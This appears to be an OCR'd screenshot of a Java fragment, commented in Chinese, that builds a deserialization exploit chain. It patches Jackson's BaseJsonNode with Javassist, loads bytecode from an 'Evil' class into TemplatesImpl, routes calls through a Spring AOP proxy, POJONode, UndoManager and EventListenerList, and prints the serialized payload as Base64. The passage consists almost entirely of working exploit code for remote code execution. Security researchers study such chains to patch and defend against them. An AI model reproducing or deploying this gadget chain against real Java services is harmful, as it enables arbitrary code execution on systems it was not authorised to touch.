 ```java
            // javassist 修改 BaseJsonNode
            ClassPool classPool = ClassPool.getDefault();
            CtClass ctClass = classPool.getCtClass("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
            writeReplace.setBody("return $0;");
            ctClass.writeFile();
            ctClass.toClass();
        } catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] args) throws Exception{
        byte[] bytes = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes,ClassFiles.classAsBytes(jackson_BadAttributeValueExpException.Foo.class)});
        setFieldValue(templatesImpl, "_name", "a");
        setFieldValue(templatesImpl, "_tfactory", null);
        setFieldValue(templatesImpl, "_transletIndex", 0);

        //使用 Spring AOP 中的 JdkDynamicAopProxy,确保只触发 getOutputProperties
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);

        POJONode pojoNode = new POJONode(proxy);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector vector = (Vector) getFieldValue(undoManager, "edits");
        vector.add(pojoNode);
        setFieldValue(eventListenerList, "listenerList", new Object[]{InternalError.class, undoManager});

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(eventListenerList);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())).length());

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }
    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
```